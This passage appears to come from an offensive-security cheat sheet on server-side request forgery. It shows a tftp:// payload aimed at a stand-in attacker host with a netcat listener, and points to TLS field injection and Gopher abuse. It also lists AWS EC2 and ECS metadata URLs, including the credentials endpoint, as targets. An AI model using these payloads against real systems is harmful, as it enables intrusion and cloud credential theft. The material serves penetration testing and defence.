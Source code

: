 ## Crafting UDP packets

You can send almost arbitrary UDP packets by using TFTP protocol.

```http
tftp://attacker-website.com:1337/TESTUDPPACKET
```

```bash
$ nc -l -v -u 1337
Listening on [0.0.0.0] (family 0, port 1337)
TESTUDPPACKEToctettsize0blksize512timeout6
```

This can be used to craft request to various UDP-services, like Memcached.

## TLS fields injection

TLS allows you to smuggle arbitrary data inside fields such as Server Name Indication or Session ID. You can use this to deliver payload to http/text-based services.

References:
- [SNI injection: A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://github.com/0xn3va/cheat-sheets/blob/master/Web%20Application/Server%20Side%20Request%20Forgery/materials/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
- [DEF CON Safe Mode - Joshua Maddux - When TLS Hacks You](https://www.youtube.com/watch?v=qGpAJxfADjo) + [TLS Poison](https://github.com/jmdx/TLS-poison)

## Abusing Gopher

Gopher is a communications protocol designed for distributing, searching, and retrieving documents. Gopher provides a wide range of abuse options, see [more](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#gopher).

# Abuse of cloud metadata

## Amazon Web Services

{% embed url="https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html" %}

{% embed url="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html" %}

{% hint style="info" %}
No header required
{% endhint %}

```http
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.170.2/v2/metadata
http://169.254.170.2/v2/stats
http://169.254.170.2/v2/credentials/
```
